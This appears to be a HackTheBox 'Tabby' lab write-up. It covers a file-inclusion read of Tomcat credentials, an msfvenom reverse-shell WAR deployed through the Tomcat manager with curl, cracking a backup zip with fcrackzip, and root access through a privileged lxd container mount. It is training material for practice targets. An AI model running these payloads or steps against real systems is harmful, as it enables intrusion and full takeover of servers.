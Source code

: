 ```yaml
---
title: HackTheBox Tabby Writeup
published: false
---
```


![](https://i.ibb.co/mBPb1hs/logo.png)

# []()Methodology

* nmap scan
* LFI Lead to read tomcat user credentials
* exploitation by Metasploit
* crack zip file by fcrackzip 
* user part
* Privilege Escalation

# []()Nmap Scan

> **as always, i’ll do nmap scan to find out which services running in this machine.**

* 8080 for apache tomcat

* 22 for ssh

* from nmap scan i know that there is a apache tomcat server.

```ruby

# Nmap 7.80 scan initiated Sun Jun 21 05:43:17 2020 as: nmap -sC -sV -oN scan.txt 10.10.10.194
Nmap scan report for 10.10.10.194
Host is up (0.13s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

> **let's check the web page now.**

![](https://i.ibb.co/b5RHnQj/webpage-mega.png)

> **after looking at the source code i found the way to exploit LFI, let's see how.**

![](https://i.ibb.co/BNg7ZrK/lfi-param.png)

# []() LFI Part

* **from the source code i've found the url: http://megahosting.htb/news.php?file=**

> **the file parameter was vulnerable to LFI, let's check it.**

![](https://i.ibb.co/qNY5mWv/lfi-done.png)

* now we have lfi, let's check the port 8080 now.

![](https://i.ibb.co/Hp3ND9s/port-8080.png)

> from this page we know that the users data we will find it at **tomcat9/tomcat-users.xml**, let's use lfi now.

* from Apache tomcat [Docs](http://tomcat.apache.org/tomcat-8.5-doc/manager-howto.html) i know that the file will be in **/usr/share/tomcat9/etc/tomcat-users.xml**

* if you are a linux user you will know that without any blogs because any program data will be found at **/usr/share**

> **here is the credentials for apache tomcat server.**

![](https://i.ibb.co/xfR6Rjq/user-data.png)

* username:**tomcat**
* password:**$3cureP4s5w0rd123!**

> **now we have the credentials, now the exploitation part will be done with 2 ways.**

# []() Exploitation Part

> exploitation part was very easy, we need a **war** format backdoor to upload to the server and start deploying it to get a reverse shell.

* let's generate a war file with **msfvenom**.

> **msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.xx LPORT=9002 -f war > xdev0.war**

* after generating this file we need to upload it and deploy it as a new application.

> **curl --user 'tomcat:$3cureP4s5w0rd123!' --upload-file xdev0.war "http://10.10.10.194:8080/manager/text/deploy?path=xdev0.war"**

```ruby

╭─xdev05@nic3One ~/Documents/HTB/Tabby  
╰─➤  curl --user 'tomcat:$3cureP4s5w0rd123!' --upload-file xdev0.war "http://10.10.10.194:8080/manager/text/deploy?path=/xdev0.war"
OK - Deployed application at context path [/xdev0.war]
╭─

```
> **let's start nc listener now and open this link http://10.10.10.194:8080/xdev0.war.**

![](https://i.ibb.co/pytCy44/nc.png)

* nice!

> **in this point you can use metasploit too.**

![](https://i.ibb.co/r3rWxQj/metasploit.png)

# []()USER Part

> **after some enumeration, I've found a compressed backup file and after cracking this file I used its password to escalate my privilege to the user privileges.**

* here is the backup file

![](https://i.ibb.co/nsZ1vjz/backup-file.png)

* let's crack it now with **fcrackzip**

> **fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt 16162020_backup.zip**

![](https://i.ibb.co/5TFBTT6/fcrack-result.png)

* let's escalate our privilege now.

> **su ash**

![](https://i.ibb.co/p2GjmMp/user.png)

* user part done!.

# []()ROOT Part

> the user **ash** is a member of **lxd local group**

```ruby

ash@tabby:~$ id
id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)

```
> **from this [Blog](https://www.hackingarticles.in/lxd-privilege-escalation/) i know the way to escalate my privileges to root privilege.**

1. **Steps to be performed on the attacker machine.**

* Download build-alpine in your local machine through the git repository.

* Execute the script “build -alpine” that will build the latest Alpine image as a compressed file, this step must be executed by the root user.

* Transfer the tar file to the host machine

2. **Steps to be performed on the Tabby machine.**

* Download the alpine image from your machine

* Import image for lxd

* Initialize the image inside a new container.

* Mount the container inside the /root directory 

* let's start now.

```ruby

╭─xdev05@nic3One ~/Documents/HTB/Tabby/lxd-alpine-builder  ‹master*› 
╰─➤  ls
alpine-v3.12-x86_64-20201106_1805.tar.gz  build-alpine  LICENSE  README.md
╭─xdev05@nic3One ~/Documents/HTB/Tabby/lxd-alpine-builder  ‹master*› 
╰─➤  

```

> **let's start a python server and upload the image to the Tabby machine**

![](https://i.ibb.co/NYBx9dG/lxd-upload.png)

* now let's import our image

> **lxc image import ./alpine-v3.12-x86_64-20201106_1805.tar.gz --alias devil**

![](https://i.ibb.co/kHqxxx4/image-lxc.png)

> **lxc init devil ignite -c security.privileged=true

> **lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true**

> **lxc start ignite**

> **lxc exec ignite /bin/sh**

![](https://i.ibb.co/QrGJ4st/root-part.png)

> root flag

```ruby

/mnt/root/root # cat root.txt
cat root.txt
8eca10cfde310d8b2c7668bee56818b5
/mnt/root/root #

```

* Thanks for reading.

* Cheers!

 <script src="https://www.hackthebox.eu/badge/103789"></script>


